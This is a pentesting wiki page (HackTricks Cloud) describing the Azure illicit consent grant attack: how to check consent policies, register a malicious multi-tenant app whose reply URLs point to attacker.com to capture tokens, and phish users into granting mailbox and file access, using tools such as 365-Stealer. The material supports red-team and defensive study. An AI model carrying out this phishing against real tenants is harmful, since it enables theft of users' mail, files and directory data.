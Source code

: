# Az - Illicit Consent Grant

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## OAuth App Phishing

**Azure Applications** ask for permissions to access the **user data** (basic info, but also access to documents, send emails...).\
If **allowed**, a normal user can grant consent only for **"Low Impact" permissions**. In **all other** cases, **admin consent is required**.\
`GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` and a custom role including `permission to grant permissions to applications` can provide tenant-wide consent.

Only permissions that **doesn't require admin consent** are classified as **low impact**. These are permissions required for **basic sign-in are openid, profile, email, User.Read and offline\_access**. If an **organization** **allows** user consent for **all apps**, an employee can grant consent to an app to **read the above from their profile**.

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Therefore, an attacker could prepare a **malicious App** and with a **phishing**, make the user **accept the App and steal his data**.

### Check if users allowed to consent

Check if users are allowed to consent to apps:

{% code overflow="wrap" %}
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
{% endcode %}

* **Disable user consent** : Users cannot grant permissions to applications.
* **Users can consent to apps from verified publishers or your organization, but only for permissions you select** : All users can only consent to apps that were published by a verified publisher and apps that are registered in your tenant
* **Users can consent to all apps** : allows all users to consent to any permission which doesn't require admin consent,
* **Custom app consent policy**

## **What is Illicit Consent Grant Attack?**

In an illicit consent grant attack, the attacker creates an **Azure-registered application that requests access to data such as contact information, email, or documents**. The attacker then tricks an end user into granting consent to the application so that the attacker can gain access to the data that the target user has access to. After the application has been granted consent, it has user account-level access to the data without the need for an organizational account.

In simple words when the victim clicks on that beautiful blue button of "Accept", Azure AD sends a token to the third party site which belongs to an attacker where attacker will use the token to perform actions on behalf the victims like accessing all the Files, Read Mails, Send Mails etc.

## **Attack Flow**

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

To perform this attack against the company "ecorp" the attacker could registered a domain with name "safedomainlogin.com" and created a subdomain ["ecorp.safedomainlogin.com"](http://ecorp.safedomainlogin.com/) where they **hosted the application to capture the authorization code** and then request for the access tokens.

Then, register a Multi Tenant Application in their Azure AD Tenant and named it as "ecorp" and added the Redirect URL that points to the "ecorp.safedomainlogin.com" which host's an application to capture the authorization code.

The attacker also create a new client secret and added few API **permissions** such `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read` in the application. So that once the **user grant the consent to the application**, the attacker can **extract** the **sensitive information** on behalf of the user.

The attacker finally creates the **link** that contained the client id of the malicious application and **shared** the link with the **targeted users** to gain their consent.

## 365-Stealer

You can perform this attack with [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer).

As extra step, if you have some **access over a user in the victim organisation**, you can check if the policy will allow him to **accept to apps**:

```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# If "ManagePermissionGrantsForSelf.microsoft-user-default-legacy", he can
```

For this attack you will need to create a **new App in your Azure Tenant** (in App registrations) with, for example, the following permissions:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` is inside `Microsoft Graph` in `Delegated permissions`. (Application permissions will always need extra approval).

* `User.ReadBasic.All` is the permission that will allow you to **read information of all the users** in the organization if granted.
* Remember that only `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` and a custom role including `permission to grant permissions to applications` can provide tenant-wide consent. So, you should **phish a user with one of those roles** if you want him to approve an **App that requires admin consent**.

You could also create an App via cli with:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)
```
{% endcode %}

Check [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) to learn how to configure it.

{% hint style="warning" %}
Note that the obtained **access token** will be for the **graph endpoint** with the scopes: `User.Read` and `User.ReadBasic.All` (the requested permissions). You won't be able to performs other actions (but those are enough to **download info about all the users** in the org).
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

You could also use this tool to perform this attack.

## Post-Exploitation

Once you got access to the user you can do things such as stealing sensitive documents and even uploading backdoored document files.

## References

* This post was copied from [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
